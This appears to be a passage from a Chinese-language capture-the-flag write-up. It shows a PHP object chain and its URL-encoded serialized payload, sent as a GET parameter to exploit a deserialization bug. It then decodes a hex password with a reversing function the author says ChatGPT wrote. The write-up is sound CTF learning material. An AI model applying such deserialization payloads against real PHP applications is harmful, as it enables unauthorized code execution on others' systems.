 ```php
$helper2 = new helper(array('string'=>array($love,'love')),'1');
$boy2 = new boy($helper2);
$h = new helper('1',$boy2);
$g = new girl($h);
$b = new boy($g);


echo urlencode(serialize($b));


O%3A3%3A%22boy%22%3A1%3A%7Bs%3A4%3A%22like%22%3BO%3A4%3A%22girl%22%3A1%3A%7Bs%3A13%3A%22%00girl%00boyname%22%3BO%3A6%3A%22helper%22%3A2%3A%7Bs%3A12%3A%22%00helper%00name%22%3BO%3A3%3A%22boy%22%3A1%3A%7Bs%3A4%3A%22like%22%3BO%3A6%3A%22helper%22%3A2%3A%7Bs%3A12%3A%22%00helper%00name%22%3Bs%3A1%3A%221%22%3Bs%3A14%3A%22%00helper%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A10%3A%22love_story%22%3A1%3A%7Bs%3A12%3A%22fall_in_love%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A12%3A%22girl_and_boy%22%3B%7D%7Di%3A1%3Bs%3A4%3A%22love%22%3B%7D%7D%7D%7Ds%3A14%3A%22%00helper%00string%22%3Bs%3A1%3A%221%22%3B%7D%7D%7D
```

get传参：

```
能请你喝杯奶茶吗？
我害羞羞
僚机上线
拱火大法好
僚机不懈努力
爱情萌芽
坠入爱河，给你爱的密码
e35a31342f241b3f17081ae75e042b5f155e38163d285826e41936125b5a075910e13e3e3404
```

得到一个密码



然后我们分析之前得到的两个文件

进行解密（不会解）：

```php
b'\x02\xa8\xbe$\x1d~\xc2\x18U*\xf2\x03i\x00<?php\r\nfunction enc($data){\r\n    $str="";\r\n    $a=strrev(str_rot13($data));\r\n    for($i=0;$i<strlen($a);$i++){\r\n        $b=ord($a[$i])+10;\r\n        $c=$b^100;\r\n        $e=sprintf("%02x",$c);\r\n        $str.=$e;\r\n    }\r\n    return $str;\r\n}\r\n?>'
```

然后叫chatgpt解密：

```php
<?php
function dec($data)
{
    $str = "";
    for ($i = 0; $i < strlen($data); $i += 2) {
        $c = hexdec(substr($data, $i, 2));
        $b = ($c ^ 100) - 10;
        $str .= chr($b);
    }
    return str_rot13(strrev($str));
}

echo dec("e35a31342f241b3f17081ae75e042b5f155e38163d285826e41936125b5a075910e13e3e3404");
```
